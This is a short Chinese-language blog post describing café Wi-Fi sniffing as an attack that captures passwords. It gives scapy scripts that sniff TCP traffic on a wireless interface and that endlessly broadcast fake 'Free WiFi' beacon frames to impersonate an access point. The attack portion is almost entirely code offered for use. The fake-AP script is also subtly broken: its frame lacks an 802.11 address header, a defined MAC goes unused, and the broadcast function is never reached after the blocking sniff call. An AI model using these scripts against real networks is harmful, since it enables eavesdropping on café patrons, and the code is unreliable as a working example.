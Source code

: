 ```yaml
---
title: "Wifi Sniffer"
date: 2023-02-26T08:55:45+08:00
author: adrian
type: post
url: /2023/02/wifi-sniffer/
tags:
  - python
  - wifi
---
```



<style>
.lntable{
    max-height: 50em;
}
</style>

## 關於咖啡廳的 wifi router

咖啡廳wifi router的常見的攻擊 - `WiFi Sniffing`
> WiFi Sniffing:是指使用特殊的軟體工具來監聽傳輸在 Wi-Fi 網絡上的封包,包括帳號密碼這些敏感資訊.

要進行`WiFi Sniffing`,通常使用以下方法:

- 監聽 Wi-Fi 流量
- 假冒 Wi-Fi AP


我們將使用`scapy`<br>
[https://scapy.net/](https://scapy.net/)
> Scapy is a powerful interactive packet manipulation program. 

```python
pip3 install scapy
```

## 監聽 Wi-Fi 流量

使用`scapy`監聽`wlan0` interface上的流量,
如果是 tcp 就輸出摘要.

```python
from scapy.all import *

def packet_handler(pkt):
    if pkt.haslayer(TCP):
        print(pkt.summary())

sniff(iface="wlan0", prn=packet_handler)
```

## 假冒 Wi-Fi AP

使用`scapy.sendp`在無窮迴圈中broadcasts `Beacon frame`
> Beacon frame : Beacon frame is one of the management frames in IEEE 802.11 based WLANs. It contains all the information about the network. Beacon frames are transmitted periodically, they serve to announce the presence of a wireless LAN and to synchronise the members of the service set. - [wikipedia](https://en.wikipedia.org/wiki/Beacon_frame)


```python
from scapy.all import *

def packet_handler(pkt):
    if pkt.haslayer(TCP):
        print(pkt.summary())

def start_fake_ap():
    ap_name = "Free WiFi"
    ap_mac = "00:11:22:33:44:55"

    beacon = Dot11Beacon(cap="ESS+privacy")
    essid = Dot11Elt(ID="SSID",info=ap_name, len=len(ap_name))
    dsset = Dot11Elt(ID="DSset",info="\x01")
    rsn = Dot11Elt(ID='RSNinfo', info=(
            '\x01\x00'                 #RSN Version 1
            '\x00\x0f\xac\x02'         #Group Cipher Suite : 00-0f-ac TKIP
            '\x02\x00'                 #2 Pairwise Cipher Suites (next two lines)
            '\x00\x0f\xac\x04'         #AES Cipher
            '\x00\x0f\xac\x02'         #TKIP Cipher
            '\x01\x00'                 #1 Authentication Key Managment Suite (line below)
            '\x00\x0f\xac\x02'         #Pre-Shared Key
        ))
    frame = RadioTap()/beacon/essid/dsset/rsn

    while True:
        sendp(frame, iface="wlan0")

sniff(iface="wlan0", prn=packet_handler)
start_fake_ap()

```
